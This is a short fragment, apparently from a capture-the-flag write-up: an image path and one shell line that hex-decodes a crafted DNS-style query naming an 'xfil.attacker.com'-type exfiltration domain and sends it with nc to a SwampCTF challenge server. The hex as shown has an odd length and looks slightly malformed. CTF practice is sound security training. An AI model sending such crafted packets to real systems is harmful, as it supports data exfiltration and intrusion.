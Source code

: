 echo -n "57866696c0861747461636b657203636f6d0000010001" | xxd -r -p | nc -u chals.swampctf.com 44254